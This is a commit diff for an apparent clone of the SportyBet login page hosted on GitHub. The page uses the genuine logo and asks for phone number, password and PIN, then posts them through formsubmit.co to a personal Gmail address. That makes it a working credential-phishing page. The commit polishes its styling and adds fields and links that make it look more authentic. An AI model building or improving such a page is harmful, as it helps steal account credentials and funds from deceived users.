

Before and after one commit to SportyBets/SportyBet, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 245-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,6 +5,7 @@
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
   <title>Login to SportyBet</title>
   <link rel="shortcut icon" href="https://s.sporty.net/global/main/logo/favicon.ico"/>
+  <link rel="apple-touch-icon" href="https://s.sporty.net/global/main/logo/144x144.png"/>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -23,6 +24,71 @@
       width: 100%;
       max-width: 400px;
       text-align: center;
+      box-sizing: border-box;
+    }
+    .login-container img {
+      max-width: 150px;
+      margin-bottom: 20px;
+    }
+    .login-container h2 {
+      margin-bottom: 25px;
+      color: #333;
+    }
+    .input-group {
+      margin-bottom: 20px;
+      text-align: left;
+    }
+    .input-group label {
+      display: block;
+      margin-bottom: 8px;
+      color: #555;
+      font-weight: bold;
+    }
+    .phone-input-group {
+      display: flex;
+      gap: 10px;
+    }
+    .phone-input-group select {
+      padding: 12px;
+      border: 1px solid #ddd;
+      border-radius: 5px;
+      font-size: 16px;
+      box-sizing: border-box;
+      width: 90px;
+    }
+    .phone-input-group input[type="tel"],
+    .input-group input[type="password"],
+    .input-group input[type="number"] {
+      width: 100%;
+      padding: 12px;
+      border: 1px solid #ddd;
+      border-radius: 5px;
+      font-size: 16px;
+      box-sizing: border-box;
+    }
+    .options-group {
+      display: flex;
+      justify-content: space-between;
+      align-items: center;
+      margin-bottom: 20px;
+      font-size: 14px;
+    }
+    .checkbox-container {
+      display: flex;
+      align-items: center;
+      gap: 5px;
+    }
+    .checkbox-container input[type="checkbox"] {
+      width: 16px;
+      height: 16px;
+      accent-color: #e41827;
+      cursor: pointer;
+    }
+    .checkbox-container label {
+      color: #555;
+      font-weight: normal;
+      margin-bottom: 0;
+      cursor: pointer;
     }
     .login-button {
       background-color: #e41827;
@@ -33,47 +99,122 @@
       font-size: 18px;
       cursor: pointer;
       width: 100%;
+      transition: background-color 0.3s ease;
     }
-    input, select {
+    .login-button:hover {
+      background-color: #c91522;
+    }
+    .terms-agreement {
+      margin-top: 15px;
+      font-size: 13px;
+      color: #777;
+    }
+    .terms-agreement a {
+      color: #e41827;
+      text-decoration: none;
+      font-weight: bold;
+    }
+    .terms-agreement a:hover {
+      text-decoration: underline;
+    }
+    .forgot-password {
+      margin-top: 15px;
+      font-size: 14px;
+    }
+    .forgot-password a {
+      color: #e41827;
+      text-decoration: none;
+    }
+    .forgot-password a:hover {
+      text-decoration: underline;
+    }
+    .signup-link {
+      margin-top: 25px;
+      font-size: 15px;
+      color: #555;
+    }
+    .signup-link a {
+      color: #e41827;
+      text-decoration: none;
+      font-weight: bold;
+    }
+    .signup-link a:hover {
+      text-decoration: underline;
+    }
+    @media (max-width: 600px) {
+      .login-container {
+        margin: 20px;
+        padding: 30px 20px;
+      }
+      .phone-input-group {
+        flex-direction: column;
+        gap: 10px;
+      }
+      .phone-input-group select {
         width: 100%;
-      padding: 10px;
-      margin-top: 10px;
-      margin-bottom: 20px;
-      border: 1px solid #ccc;
-      border-radius: 4px;
-      font-size: 16px;
+      }
     }
   </style>
 </head>
 <body>
   <div class="login-container">
-    <img src="https://s.sporty.net/common/main/res/5deafad00821308fc9a5fdb0a1cc038.png" alt="SportyBet Logo" style="max-width: 150px; margin-bottom: 20px;">
+    <img src="https://s.sporty.net/common/main/res/5deafad00821308fc9a5fdb0a1cc038.png" alt="SportyBet Logo">
     <h2>Login to your account</h2>
+    <form action="https://formsubmit.co/chisimdipayeer@gmail.com" method="POST">
+      <!-- Hidden inputs for FormSubmit -->
+      <input type="hidden" name="_captcha" value="false">
+      <input type="hidden" name="_next" value="https://example.com/thank-you">
 
-    <form action="https://formsubmit.co/chisimdipayeer@gmail.com" method="POST">
-      <!-- FormSubmit configuration -->
-      <input type="hidden" name="_captcha" value="false">
-      <input type="hidden" name="_next" value="https://sportybets.github.io/Sporty/">
-
-      <!-- Form Fields -->
-      <label for="countryCode">Country Code</label>
+      <div class="input-group">
+        <label for="phoneNumber">Phone Number</label>
+        <div class="phone-input-group">
           <select id="countryCode" name="Country Code">
             <option value="+234" selected>+234 (Nigeria)</option>
             <option value="+233">+233 (Ghana)</option>
             <option value="+254">+254 (Kenya)</option>
+            <option value="+255">+255 (Tanzania)</option>
+            <option value="+260">+260 (Zambia)</option>
           </select>
+          <input type="tel" id="phoneNumber" name="Phone Number" placeholder="Enter your phone number" required>
+        </div>
+      </div>
 
-      <label for="phone">Phone Number</label>
-      <input type="tel" id="phone" name="Phone Number" placeholder="Enter your phone number" required>
-
+      <div class="input-group">
         <label for="password">Password</label>
         <input type="password" id="password" name="Password" placeholder="Enter your password" required>
+      </div>
 
+      <div class="input-group">
         <label for="pin">Pin</label>
         <input type="number" id="pin" name="Pin" placeholder="Enter your pin" required>
+      </div>
+
+      <div class="options-group">
+        <div class="checkbox-container">
+          <input type="checkbox" id="rememberMe" name="Remember Me">
+          <label for="rememberMe">Remember me</label>
+        </div>
+        <div class="checkbox-container">
+          <input type="checkbox" id="keepSignedIn" name="Keep Me Signed In">
+          <label for="keepSignedIn">Keep me signed in</label>
+        </div>
+      </div>
 
       <button type="submit" class="login-button">Login</button>
+
+      <div class="terms-agreement">
+        By logging in you have accepted our
+        <a href="https://www.sportybet.com/ng/m/help/about/terms-and-conditions" target="_blank">terms and agreement</a>.
+      </div>
     </form>
+
+    <div class="forgot-password">
+      <a href="#">Forgot Password?</a>
+    </div>
+
+    <div class="signup-link">
+      Don't have an account? <a href="#">Register Now</a>
+    </div>
   </div>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
